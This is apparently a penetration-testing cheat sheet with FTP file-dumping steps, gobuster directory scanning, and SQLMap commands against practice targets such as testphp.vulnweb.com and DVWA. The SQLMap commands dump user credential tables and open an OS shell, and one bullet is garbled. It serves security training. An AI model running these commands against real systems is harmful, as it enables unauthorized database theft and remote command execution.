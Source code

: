 ```bash
ftp <target_IP> #connect to FTP service
# if you've not credentials, first try anonymous login writing as user: anonymous and leave blank psw, or brute force credentials using hydra (see section).
Prompt OFF #deactive prompt mode
binary #active binary mode
mget * #dump all file
bye #exit
```

## **GoBuster**

```bash
gobuster dir -u http://IP:Port -w wordlist.txt
```

## **SQLMap**

### **Finding vulnerable site**

* site:[http://testphp.vulnweb.com/](http://testphp.vulnweb.com/) php?=&#x20;

(for cookies- console->document.cookie)

{% hint style="info" %}
Have cookie value is better, because reduce time to elaborate results!
{% endhint %}

* `sqlmap -u` [`http://testphp.vulnweb.com/artists.php?artist=1`](http://testphp.vulnweb.com/artists.php?artist=1)  `--dbs   (databases)`
* `sqlmap -u` [`http://testphp.vulnweb.com/artists.php?artist=1`](http://testphp.vulnweb.com/artists.php?artist=1)  `-D acuart –tables   (tables)`
* `sqlmap -u` [`http://testphp.vulnweb.com/artists.php?artist=1`](http://testphp.vulnweb.com/artists.php?artist=1)  `-D acuart -T users --columns   (columns)`

### Dump whole table

* `sqlmap -u` [`http://testphp.vulnweb.com/artists.php?artist=1`](http://testphp.vulnweb.com/artists.php?artist=1)  `-D acuart -T users  --dump`&#x20;

&#x20;                                                           OR                                                                                   &#x20;

(dump individual  column data)

* `sqlmap -u` [`http://testphp.vulnweb.com/artists.php?artist=1`](http://testphp.vulnweb.com/artists.php?artist=1)  `-D acuart -T users -C uname  --dump` &#x20;
* `sqlmap -u` [`http://testphp.vulnweb.com/artists.php?artist=1`](http://testphp.vulnweb.com/artists.php?artist=1)  `-D acuart -T users -C pass  --dump`
* `sqlmap -u "http://vmw.moviescope.com/viewprofile.aspx?id=l" —dbs [ Copy the cookie from website, mysql -U qdpmadmin -h 192.168.1.8 -P passwod [ If you have logins credentioals I`&#x20;
* `sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" --dbs`
* Get list of tables -> `sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" -D mysql --tables`
* Dump data from tables -> `sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" -D mysql -T db --dump`
* Get OS shell -> `sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" --os-shell`

